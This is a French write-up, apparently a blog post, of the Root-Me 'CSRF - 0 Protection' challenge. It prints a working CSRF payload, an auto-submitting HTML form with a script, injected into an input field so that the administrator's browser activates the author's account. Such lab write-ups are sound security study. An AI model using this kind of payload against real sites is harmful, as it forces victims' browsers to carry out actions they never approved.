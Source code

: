```yaml
---
title: 'CSRF - 0 Protection'
description: "Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme13-0.png'
---
```


## 11. CSRF - 0 Protection

**Objectif :** Activer votre compte pour accéder à l'espace privé de l'intranet  
**Méthode :** Injection d'un formulaire HTML avec auto-soumission  
**Outils utilisés :** Code HTML (Form)  
**Temps :** 25 minutes  


### Solution

Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement.

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme13-0.png"/></div>

**Étapes :**
1. Analyser la requête légitime de modification de profil
2. Créer un formulaire malveillant qui reproduit cette requête
3. Injecter le code dans un champ de saisie :
   ```html
   <form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
     <input type="text" name="username" value="fanny" />
     <input type="checkbox" name="status" checked=checked />
     <input type="submit" value="Submit request" />
   </form>
   <script>document.csrf.submit()</script>
   ```
4. Le formulaire se soumet automatiquement côté administrateur
5. Le compte est activé via la requête CSRF


<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme13-2.png"/></div>

